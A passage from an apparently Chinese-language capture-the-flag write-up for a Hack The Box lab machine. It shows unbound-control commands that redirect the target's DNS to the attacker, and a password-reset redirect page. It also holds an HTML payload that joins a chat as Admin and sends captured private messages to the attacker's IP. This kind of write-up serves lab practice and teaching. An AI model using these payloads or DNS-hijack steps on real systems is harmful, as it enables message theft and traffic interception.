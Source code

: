 之前下载的unbound的配置文件unbound.conf如下：

![](https://gitee.com/fuli009/images/raw/master/public/20210811175829.png)修改为自己的路径：

![](https://gitee.com/fuli009/images/raw/master/public/20210811175830.png)在kali的apache2网页目录下写入如下2个文件：

  * 

    
    
    echo "<html><head></head><body><script>window.location=\"http://xcrossfit.htb/go.html\";</script><p>Redirecting ...</p></body></html>" > /var/www/html/password-reset.php

![]()

  * 

    
    
    echo "<html><head><script src=\"http://crossfit-club.htb/socket.io/socket.io.js\"></script><script>var s = io.connect(\"http://crossfit-club.htb\");s.emit(\"user_join\", { username : \"Admin\" });s.on(\"private_recv\", (d) => {var xhr = new XMLHttpRequest();xhr.open(\"GET\", \"http://10.10.16.9/get.php?s=\" + btoa(JSON.stringify(d)), true);xhr.send();});</script></head><body><p>Getting data ...</p></body></html>" > /var/www/html/go.html

![](https://gitee.com/fuli009/images/raw/master/public/20210811175831.png)开启apache2服务；

  * 

    
    
    service apache2 start

访问测试下：

![]()

没问题，下面开启DNS服务；

unbound-control的基本命令格式：

  * 

    
    
    unbound-control -c my_unbound.conf -s 10.10.10.232@8953 forward_add +i some.attacker.htb. @53

在kali终端里运行：

  *   * 

    
    
    unbound-control -c ./unbound.conf -s 10.10.10.232@8953 forward_add +i xemployees.crossfit.htb. 10.10.16.14@53; sleep 2;unbound-control -c ./unbound.conf -s 10.10.10.232@8953 forward_add +i xcrossfit.htb. 10.10.16.14@53

![](https://gitee.com/fuli009/images/raw/master/public/20210811175833.png)

在hosts里把这两个域名也加上；

> 10.10.10.232 crossfit.htb employees.crossfit.htb gym.crossfit.htb crossfit-
> club.htb xcrossfit.htb xemployees.crossfit.htb
